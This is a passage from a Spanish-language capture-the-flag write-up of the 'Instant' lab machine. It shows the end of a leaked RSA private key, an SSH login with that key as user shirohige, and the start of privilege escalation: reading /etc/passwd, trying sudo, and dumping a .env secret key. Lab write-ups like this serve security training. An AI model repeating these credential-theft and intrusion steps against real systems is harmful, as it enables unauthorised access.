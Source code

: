 ```console
mzlDtNd11uhk2o9tKGbRzoYpO7qVVYuWci7B2JQpPyvb/3tF94vNDSYA6cFmDvVs
TI9e4UDfISFt3lhrOJM/tBMCgYEAtLf+gmlDrEvhc+fFyy+2Z3DtPP9oJ0J96mao
zp8aiGJwcNFCXQJSj5B726KaPSAX8Ec1Tto4GxLxUKWKCeahD7OlKbCtJTACBhFd
4rs7yQR3puK6HC4u2EBbhzE5WIjoHPFKNv5uHIbnSjj8p4/IhgiyaHHoQrClSn5U
uNok3YcCgYEAlZm8q+7OLAbfBsWLZ4m3I9AaPTdIvpPiKBsXesf+BzHR9faswGdb
f3rKKjk4yuEkA336dZ3KEKRotCulBj33t645z0z1qY3eNczPUap979veWvgjZCCt
hEitCPPh4xFo+NAkXQU7G7WnR9qtGm1NMaqXAptdURjCw8Idp5TeqYY=
-----END RSA PRIVATE KEY-----
```

Le damos los permisos adecuados.
```console
$ chmod 600 id_rsa.shirohige 
```

Y ahora por SSH podemos ganar acceso como este usuario en la máquina víctima.
```console
$ ssh -i id_rsa.shirohige shirohige@instant.htb
The authenticity of host 'instant.htb (10.129.252.212)' can't be established.
ED25519 key fingerprint is SHA256:r+JkzsLsWoJi57npPp0MXIJ0/vVzZ22zbB7j3DWmdiY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'instant.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
shirohige@instant:~$ id
uid=1001(shirohige) gid=1002(shirohige) groups=1002(shirohige),1001(development)
```

# Privilege Escalation
No vemos otro usuario interesante a parte de `shirohige` y `root`
```console
shirohige@instant:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash
```

Para hacer `sudo -l` necesito credencial, y no la tengo.
```console
shirohige@instant:~$ sudo -l
[sudo] password for shirohige: 
```

Analizando el directorio `projects` del usuario, encontramos un archivo `.env` que contiene una clave secreta.
```console
shirohige@instant:~/projects/mywallet/Instant-Api/mywallet$ cat .env 
SECRET_KEY=VeryStrongS3cretKeyY0uC4NTGET
```
